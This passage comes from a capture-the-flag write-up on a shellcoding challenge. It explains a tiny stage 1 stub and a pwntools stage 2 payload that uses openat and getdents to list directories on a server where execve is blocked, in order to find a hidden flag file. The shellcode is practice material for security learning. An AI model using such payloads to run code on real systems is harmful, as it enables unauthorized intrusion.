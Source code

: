 
This payload only uses 6 bytes of space! It relayed on the fact that `xchg XXX, eax` is a single byte instruction, and due to its 32 bit nature, the current address is truncated to only 4 bytes before being loaded into rdx.

### Crafting the stage 2 payload

Now, we successfully bypassed the size limitation and can run whatever code we want; however, the execve syscall seems to be blocked on the server. Bummer!

But we can still do an open/read/write to get the flag right? Well, now is a good time to review the challenge description:

> The directories on the server looks something like this:

```
...
├── flag
│   ├── unknown
│   │   └── ...
│   │       └── flag
│   └── unknown
└── shellcoder
```

As you can see, the flag is hidden in a nested folder, and we need a way to find the path for the flag file.

Basically, we need a way to list the content in a given directory. The first thing that came to me was the `ls` command, so I ran a strace on it:

```
$ strace ls
...
openat(AT_FDCWD, ".", O_RDONLY|O_NONBLOCK|O_CLOEXEC|O_DIRECTORY) = 3
...
getdents(3, /* 8 entries */, 32768)     = 272
getdents(3, /* 0 entries */, 32768)     = 0
...
```

All that we need is two syscalls: [openat](https://linux.die.net/man/2/openat) which opens a file descriptor for a given path and [getdents](http://man7.org/linux/man-pages/man2/getdents.2.html) which list out the content of a directory.

With the help of the shellcraft module in pwntools, I quickly created a payload that can read out the content of a given directory:

```python
payload = 'start:'
payload += shellcraft.amd64.linux.syscall(0x00, 0, 'rsp', 100)
payload += shellcraft.amd64.linux.syscall(0x101, -100, 'rsp', 591872)
payload += shellcraft.amd64.linux.syscall(0x4e, 'rax', 'rsp', 32768)
payload += shellcraft.amd64.linux.syscall(0x01, 1, 'rsp', 'rax')
payload += 'jmp start'
payload = asm(payload)
```
